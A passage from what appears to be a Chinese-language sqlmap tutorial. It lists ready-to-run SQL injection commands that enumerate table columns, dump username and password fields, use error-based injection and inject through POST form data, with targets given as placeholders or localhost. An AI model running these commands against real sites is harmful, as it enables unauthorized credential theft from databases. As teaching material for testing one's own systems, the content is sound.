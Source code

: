 ```
sqlmap -u "目标注入点" -D security -T users --columns

sqlmap -u "http://127.0.0.1/showproducts.php?id=13" --columns -T manage_user -D xycms

-T manage_user
#指定表名manage_user
--columns
#查看表的列名
```

5. 查看字段

```
sqlmap -u "目标注入点" -D security -T users -C username,password --dump

sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --dump -C m_name,m_pwd -T  manage_user -D xycms

-C m_name,m_pwd
#指定列名m_name和m_pwd
--dump
#查看字段
```



## 报错注入

```
sqlmap -u "目标注入点" --current-db --batch --threads 10 --technique E

--current-db
#查看当前所用的数据库
--batch
#忽略一些错误
--threads 10
#线程设置为10
--technique E
#注入方式——errorbased的报错注入技术
```



## post方面

```
*标识哪里，就是用sqlmap对哪里进行打击
```



```
sqlmap -u "目标注入点" --data "uname=admin*&passwd=admin&submit=Submit" --dbs --batch --threads 10 --technique E
```
